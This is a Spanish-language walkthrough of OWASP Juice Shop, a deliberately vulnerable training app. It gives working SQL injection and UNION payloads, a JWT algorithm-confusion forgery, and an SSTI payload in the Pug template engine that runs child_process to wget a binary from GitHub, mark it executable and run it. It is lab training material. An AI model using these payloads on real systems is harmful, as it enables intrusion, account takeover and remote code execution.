# Juice shop

## Admin Login

Registra un usuario con privilegios de administrador

Tras una corta exploracion encuentro el panel de login.



Con una pequeña prueba compruebo que este panel, para ser exactos, el imput email, es vulnerable a SQLI.



Y con esto, ya tengo control de la cuenta de administrador.




## Admin registration

El panel de registro no me permite en principio, asignarme ningun tipo de rol.



Antes de ponerme a analizar el codigo del script, intercepto la orden con burpsuite a ver si me permite editar dicho valor.



A priori, no encuentro nada claro acerca de el rol.



Pero, al enviarlo, vemos que si que hay un parametro role en la respuesta, el cual se establece por defecto como costumer, voy a probar a cambiarlo en mi peticion antes de leer js.



Parece haber funcionado.


Efectivamente, ha funcionado.

## Database Schema

```
En el primer reto, Admin login, encontramos una vulnerabilidad SQLI en el panel de login, sin embargo, esta vulnerabilidad es conditional blind, asi que las inyecciones UNION no funcionaran.

Se puede exfiltrar por aqui mediante un script y respuestas booleanas condicionales, pero eso no es lo que quiere el reto, asi que continuare buscando posibles campos vulnerables en la pagina.
```

El buscador principal es el principal sospechoso, pero no es vulnerable a SQLI.



Asimismo, no hay cookies que influyan al resultado de la busqueda.

En este formulario podemos descartar SQLI.



Leyendo el codigo para ver el funcionamiento de search veo que hace referencia a una ruta extraña a la hora de filtrar los productos del buscador, y lo mejor, es que en esa funcion en especifico NO VALIDA NADA, ahi tenemos la inyeccion sql.


Por lo que entiendo leyendo el codigo, este programa envia lo que tu le indiques en el imput a unos filtros y luego envia el imput sanitizado a esta ruta para ejecutar la consulta, pero si le damos el valor directamente en la ruta, podremos saltarnos los filtros.



Utilizando la consulta ORDER BY, confirmo la vulnerabilidad, ahora, tengo un problema, y es que, inyecte lo que inyecte, da error 500, lo cual nos indica que, si bien la pagina es vulnerable, no estoy introduciendo bien la inyeccion, lo cual es raro, voy a seguir experimentando hasta dar con la tecla.



Tras experimentar un rato, pruebo introduciendo parentesis por si el dato esta siendo filtrado por alguna funcion, y veo que lo acepta, por lo tanto, puedo deducir que la consulta tras esto seria algo asi:

```sql
SELECT *
FROM productos
WHERE valor = funcion(funcion($valor' ORDER BY 1 -- -))
```

Ahora preparare un UNION, primero tengo que sacar el numero de columnas, para eso usare ORDER BY y experimentare con errores.

Al final, descubro, con este proceso, que son 9 columnas.

Asi que la inyeccion que deberia usar es la siguiente

```sql
')) UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9 FROM tabla -- -
```

Ahora, sacare en nombre de las tablas con la siguiente inyeccion

```sql
')) UNION SELECT name, 2, 3, 4, 5, 6, 7, 8, 9 FROM sqlite_master -- -
```

Y con esto, conociendo como funciona sqlite_master, puedo exfiltrar toda la tabla



Y con esto, ya tengo un mapa de la base de datos, es decir, ya tengo el reto completado.


Desde aqui tambien podemos completar el reto user credentials

## Multiple Likes

Ahora, debo de lograr alguna forma de romper los limiter de un like por producto en algun usuario.



Viendo el funcionamiento del like, parece que simplemente emite un id y actualiza el conteo de likes.

En esta solicitud puedo ver, por un lado, un id, por el otro, un enorme token.

Ahora, al parecer, este script funciona de la siguiente forma, recibe la solicitud, comprueba que es el usuario, comprueba que este no tiene mas likes y lo envia, pero esto requiere un tiempo, esto podria suponer una posible condicion de carrera, por lo tanto, si enviamos todos los likes en paralelo, es posible que no le de tiempo a bloquearlos antes de establecer que el usuario ya no dar mas likes.

Para esto tenemos varias opciones, la mas sencilla es crear un grupo en burpsuite.

Llevamos la solicitud al repeater varias veces.



Y ahora, debemos crear y añadirlas todas a un grupo



Seleccionamos todas las solicitudes.



Y ahora, tenemos que enviarlas en paralelo.



Y, parece haber funcionado.



Si, ha funcionado.




## Two Factor Authentication

Muy bien, vamos a ponernos en el siguiente escenario, con la vulnerabilidad SQLI que obtube anteriormente estoy comenzando a extraer las contraseñas de muchos usuarios y entrando a sus cuentas para lo que sea, y ahora, me encuentro con que uno de los administradores tiene activado el doble factor de autenticacion.



Intercepto la solicitud y, con mi solicitud, puedo ver que estoy enviando dos tokens, el codigo que debo introducir y no conozco, y un token temporal.



Mirando las tablas de usuarios, encuentro la columna totpSecret, exactamente lo mismo que el condenado bot me pide, asi que, voy a simplemente entregarlo



Extraigo de nuevo la tabla para obtener el token



Ahora, debo de averiguar como usar este token, debido a que lo han mencionado varias veces podemos deducir que es TOTP el sistema que estan usando para la verificacion en dos pasos, por lo tanto, busco la documentacion e investigo para descubrir como aprobechar este token.

TOTP funciona a traves de google authenticator, y ese token es la clave de configuracion, por lo tanto, lo unico que necesitamos hacer es configurar, usando ese token, una instancia de google authenticator y utilizar el numero aleatorio que nos da el token para acceder de forma normal.



Y con esto, hemos completado el desafio.



## Upload Type

Si queremos llevar a cabo una reclamacion, podemos ver el siguiente formulario.



Dentro de este formulario, puedo incluir una factura que, en teoria, no deberia de ser ningun otro formato ademas de .zip o .pdf, asi que, voy a intentar colarle un .php.



Al intentar introducirlo directamente, podemos ver que el sistema lo bloquea.



Ahora, voy a probar a cambiarle la extension.

```bash
factura.php.zip
```

Y, como podemos ver, con esto ha bastado para colarsela.





Ahora, si interceptamos la peticion y modificamos el nombre del fichero podremos introducir un fichero php, no php.zip, y con esto ya habremos resuelto el desafio.



Esto ocurre debido a que el filtro se aplica en el formulario html, no a la hora de recibirlo, por lo tanto, si de alguna forma nos saltamos ese formulario, como puede ser enviando la solicitud directamente con curl o modificandola con burpsuite (como hemos hecho ahora) no se aplicaran los filtros.



## SSRF

Tras una pequeña busqueda de posibles entradas vulnerables, encuentro un formulario muy interesante en el perfil de usuario.



Aqui, podemos ver una opcion que nos permite llamar a una imagen desde un enlace, introduciendo una URL, es posible que, si llamamos desde aqui a un recurso interno del servidor, este se ejecute desde el servidor.



Al introducir la direccion de loopback, podemos ver claramente como lo acepta, y al intentar acceder la imagen que hemos visto desde el perfil.



Podemos ver que nos envia, efectivamente, a la direccion de loopback.



Con esto ya tenemos localizada la vulnerabilidad, ahora, lo que hemos de localizar es el recurso oculto que queremos ejecutar.

Ahora, siguiendo la recomendacion de las hint de juice-shop hago ingenieria inversa al virus, cosa que no me gusta demasiado, para esto primero usare strings para leer las cadenas visibles en el binario, y en caso de no encontrar nada, usare ghidra para descompilar el programa, aunque no soy demasiado experimentado en eso, asi que espero no tener que llegar a eso.

Tras un buen rato analizando esto (COMO UN PROGRAMA TAN SIMPLE PUEDE SER TAN ENORME POR DIOS), encuentro una url interesante, ```http://localhost:3000/solve/challenges/server-side?key=tRy_H4rd3r_n0thIng_iS_Imp0ssibl3```

Segun lo que e podido leer, este virus, precisamente, funciona enviando una solicitud a esa ruta, asi que, vamos a ejecutarlo.



Y con esto, ya habremos finalizado el reto


## View Basket

Bien, este reto es bastante sencillo, primero debemos de observar el funcionamiento de estas solicitudes.



Como podemos observar en esta imagen, cuando se esta intentando introducir un articulo en la cesta, la solicitud hace referencia a una api, /rest/basket, y delante de estos, podemos encontrar un numero, que, viendo el codigo con el inspector, podemos ver que es una variable.



Mi teoria es que esta variable hace referencia al usuario en cuestion.

Para confirmar esta teoria, observo esto con otro usuario y, como podemos observar, ese numero es lo unico que cambia.



Cambiando este numero, lo unico que logramos es cambiar la cesta que se va a visualizar, pero con esto completamos uno de los desafios, asi que lo he destacado.


## Manipulate Basket

Al dejar pasar esta entrada, encontramos un post que hace referencia a BasketItems, este SI es el encargado de enviar los items a la cesta, y en los parametros, encontramos lo siguiente.


Sin embargo, al cambiarlo y enviarlo, nos aparece el siguiente error.

```
{'error' : 'Invalid BasketId'}
```

Despues de jugar durante un rato con esta solicitud, encuentro que soy capaz de bypasear los filtros mediante un doble parametro.

 

Esto sucede debido a que la aplicacion lee TODOS los parametros enviados, por lo tanto, al introducir un segundo parametro, este sobreescribira al anterior, y al mismo tiempo, el primer parametro, nos permitira saltarnos los filtros de la aplicación.

Al volber a la pagina web, puedo comprobar que ya he completado el desafio.



## Forged Signed JWT

Este desafio consiste en forjar un token JWT con una firma RSA casi adecuada, que impersone al usuario no existente rsa_lord@juice-sh.op.

Lo primero que hare sera analizar el token JWT de un usuario existente al que tengo acceso, en este caso, admin.



```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjUtMTEtMDcgMDg6NTM6MTMuOTg3ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjUtMTEtMDcgMDg6NTM6MTMuOTg3ICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc2MjUwNTY3MH0.sYAHj-eaARNjHoc8e0E89jCg_0oXSH6LfBktKbUhQGQMyt2VMl7Sg83dsqW9PCC9--Q5qnFIK3oY76zjjaZYaUSJjF_FsCxYKBSJWH-hrLZIlhZ3skTNokIOTkwlzPrhELdAxQI7IHCKPcTrP9g0FeDCAKWiJMeFX6gBr7AdzVQ
```

Este tipo de tokens se componen de tres areas, separadas por un ., el header, el contenido, y la firma rsa.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.
```
Header

```
eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjUtMTEtMDcgMDg6NTM6MTMuOTg3ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjUtMTEtMDcgMDg6NTM6MTMuOTg3ICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc2MjUwNTY3MH0
```
Contenido

```
sYAHj-eaARNjHoc8e0E89jCg_0oXSH6LfBktKbUhQGQMyt2VMl7Sg83dsqW9PCC9--Q5qnFIK3oY76zjjaZYaUSJjF_FsCxYKBSJWH-hrLZIlhZ3skTNokIOTkwlzPrhELdAxQI7IHCKPcTrP9g0FeDCAKWiJMeFX6gBr7AdzVQ
```
Firma RSA

Tanto los headers como el contenido se codifican en base64, por lo tanto, basta con decodificar base64 para ver la estructura que sigue el token JWT, y por lo tanto, como debemos construir nuestro propio token.

Headers
```json
{
    "typ":"JWT",
    "alg":"RS256"
}
```

Aqui podemos ver que la firma utiliza el algoritmo RS256 (RSA+SHA256), el cual es un algoritmo asimetrico.

```json
{
    "status":"success",
    "data":
        
    {
        "id":1,
        "username":"",
        "email":"admin@juice-sh.op","password":"0192023a7bbd73250516f069df18b500",
        "role":"admin",
        "deluxeToken":"",
        "lastLoginIp":"",
        "profileImage":"assets/public/images/uploads/defaultAdmin.png","totpSecret":"",
        "isActive":true,
        "createdAt":"2025-11-07 08:53:13.987 +00:00",
        "updatedAt":"2025-11-07 08:53:13.987 +00:00",
        "deletedAt":null
    },
    "iat":1762505670
}
```
Contenido

Ahora, para cumplir el objetivo deseado deberiamos cambiar el campo email al email dado por el desafio, quedando para nosotros el token sin cifrar en algo como esto.

```json
{
    "status":"success",
    "data":
        
    {
        "id":1,
        "username":"",
        "email":"rsa_lord@juice-sh.op","password":"0192023a7bbd73250516f069df18b500",
        "role":"admin",
        "deluxeToken":"",
        "lastLoginIp":"",
        "profileImage":"assets/public/images/uploads/defaultAdmin.png","totpSecret":"",
        "isActive":true,
        "createdAt":"2025-11-07 08:53:13.987 +00:00",
        "updatedAt":"2025-11-07 08:53:13.987 +00:00",
        "deletedAt":null
    },
    "iat":1762505670
}
```

Ahora, para poder crear una firma, primero, deberemos obtener la clave publica, esta la podemos encontrar en /encryptionkeys, el cual encontre haciendo fuzzing con la herramienta ffuz nada mas instalar juice-shop.



Con esta key, ahora, podemos firmar la clave, ¿como, si solo tenemos la clave publica y necesitamos la privada para poder firmar? simple, la vulnerabilidad en este sistema de tokens se encuentra en el hecho de que podemos cambiar el algoritmo de cifrado que se utilizara y lo aceptara, teniento esto en cuenta, podemos cambiar el algoritmo de firmas a uno simetrico, que utiliza la misma key para cifrar y descifrar.

En mi caso, utilizare HS256, ahora, voy a montarlo todo usando jwt.io.



Y como podemos comprobar, ya soy el usuario que no existe.



## Premiun Paywall

Despues de varias horas sin ser capaz de encontrar como hacer este desafio recurri a la guia y descubri que debereia de aparecerme (y no me aparece) el siguiente texto comentado en el codigo html.

```<!--IvLuRfBJYlmStf9XfL6ckJFngyd9LfV1JaaN/KRTPQPidTuJ7FR+D/nkWJUF+0xUF07CeCeqYfxq+OJVVa0gNbqgYkUNvn//UbE7e95C+6e+7GtdpqJ8mqm4WcPvUGIUxmGLTTAC2+G9UuFCD1DUjg==-->```

No se por que esto ocurre, pero vamos a continuar el desafio.

Este parece ser un texto cifrado, y si recordamos en ficheros anteriores, en el directorio /encryption.key, existe una clave de cifrado que puede ser la necesaria para descifrar este texto.


Descargo el fichero y leo su contenido.



Encuentro dos grupos de numeros hexadecimales.

Por lo que parece, la clave se esta almacenando en un formato padding.clave.

La clave tiene 128 bits, esto puede corresponder con una variedad de algoritmos de cifrado.



Despues de lograr desencriptarlo uso openssl, el algoritmo que acabo funcionando fue aes256, aun a pesar de quee la clave es de 128 bits.

Ademas, en la opcion -iv, deberemos de introducir el padding.

Lo que se nos entrega al desencriptarlo es una ruta.



Y al acceder a la ruta, encontramos una imagen en 3d.

Y con esto, el desafio esta completado.



## SSTI

La vulnerabilidad se encuentra en la entrada username en el formulario del perfil.



Ademas, podemos saber que el motor que se esta usando es PUGJS debido al formato de la template, asi que vamos a realizar la explotacion, lo que el programa quiere que hagamos es ejecutar uno de los malware que podemos encontrar en /ftp/quarentine, asi que vamos a hacer exactamente eso.

El comando en el sistema que debemos ejecutar para que el malware se ejecute es el siguiente.
```bash
wget -O malware https://github.com/juice-shop/juicy-malware/blob/master/juicy_malware_linux_amd_64?raw=true && chmod +x malware && ./malware

```

Esto ahora lo aplicaremos a la plantilla pugjs, quedando el siguiente payload.

```js
#{global.process.mainModule.require('child_process').execSync('wget -O virus https://github.com/juice-shop/juicy-malware/blob/master/juicy_malware_linux_amd_64?raw=true && chmod +x virus').toString()}
```

```Soy consciente que si ejecuto todo en exec se hara en un solo comando, pero lo prefiero asi para poder tener un control mas sencillo de todo el proceso en caso de que algo salga mal```

Con eso instalaremos el virus en el dispositivo.

```js
#{global.process.mainModule.require('child_process').exec('./virus')}
```
Y con esto lo ejecutaremos



Y con esto ya hemos completado el desafio.